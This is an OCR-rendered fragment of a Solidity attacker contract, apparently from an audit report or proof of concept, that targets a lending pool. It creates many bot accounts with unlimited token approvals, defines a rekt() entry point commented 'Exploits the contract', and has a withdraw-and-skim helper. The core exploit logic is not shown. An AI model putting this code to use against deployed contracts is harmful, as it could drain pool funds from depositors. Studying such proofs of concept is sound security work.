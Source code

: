 ```solidity
  /// @param factory The factory address.
  /// @param pool The target of the attack.
  /// @param token The collateral token.
  constructor(
    Factory factory,
    LendingPoolExtension pool,
    ERC20Mock token
  ) {
    _FACTORY = factory;
    _POOL = pool;
    _TOKEN = token;
  }

  /// @param numAccounts Number of bot accounts to create.
  function prepareAccounts(
    uint256 numAccounts
  ) external {

    for (uint256 i; i < numAccounts; i++) {

      /// @dev Create a new bot account.
      address account = _FACTORY.createAccount({
        salt: i + 0x69,
        accountVersion: 0,
        creditor: address(_POOL)
      });

      /// @dev Track the account.
      _accounts.push(account);
      /// @dev Ensure token approvals.
      _TOKEN.approve(account, type(uint256).max);

    }
     
  }

  function _emptyActionData() internal returns (ActionData memory emptyActionData) {
    address[] memory emptyAddresses = new address[](0);
    uint256[] memory emptyUints = new uint256[](0);
    emptyActionData = ActionData(emptyAddresses, emptyUints, emptyUints, emptyUints);
  }

  /// @dev Exploits the contract.
  function rekt() external {
    executeAction("");
  }

  function _withdrawAndSkim(address account, uint256 amountToWithdraw) internal {

    AccountV1 currentAccount = AccountV1(account);

    /// @dev Have the account formally deposit the token.
    address[] memory assetAddresses = new address[](1);
    assetAddresses[0] = address(_TOKEN);
    uint256[] memory assetIds = new uint256[](1);
    uint256[] memory assetAmounts = new uint256[](1);
    assetAmounts[0] = amountToWithdraw;

    currentAccount.withdraw(assetAddresses, assetIds, assetAmounts);
    currentAccount.skim(address(_TOKEN), 0, 0);

  }

```